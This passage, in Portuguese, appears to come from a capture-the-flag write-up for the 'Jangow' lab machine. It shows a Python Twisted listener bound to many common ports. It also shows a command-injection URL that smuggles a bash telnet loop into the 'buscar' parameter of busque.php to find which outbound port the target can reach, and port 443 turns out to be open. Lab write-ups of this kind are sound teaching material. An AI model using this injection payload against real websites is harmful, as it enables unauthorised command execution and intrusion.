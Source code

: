 Para isso, vamos colocar o nosso host para escutar as principais portas ao mesmo tempo:

~~~
nano listen.py
~~~ 
~~~
#!/usr/bin/python3

from twisted.internet import reactor
from twisted.web import resource, server

class MyResource(resource.Resource):
    isLeaf = True
    def render_GET(self, request):
        return 'gotten'

site = server.Site(MyResource())

reactor.listenTCP(23, site)
reactor.listenTCP(25, site)
reactor.listenTCP(53, site)
reactor.listenTCP(80, site)
reactor.listenTCP(110, site)
reactor.listenTCP(138, site)
reactor.listenTCP(139, site)
reactor.listenTCP(161, site)
reactor.listenTCP(389, site)
reactor.listenTCP(443, site)
reactor.listenTCP(445, site)
reactor.listenTCP(3128, site)

reactor.run()

~~~



Agora, no navegador, vamos executar o telnet no alvo, usando um laço de repetição para testar todas as portas:

~~~
http://jangow/site/busque.php?buscar=echo 'QUIT' | for i in $(seq 1 1024); do echo "Porta $i ==>"; timeout --signal=9 2 telnet jangow $i;echo "Porta $i <=="; done; 

~~~


A porta 443 aceita a saída de conexão:

![alt text](https://github.com/jandercalmeida/jangow/blob/main/images/output_telnet.png)
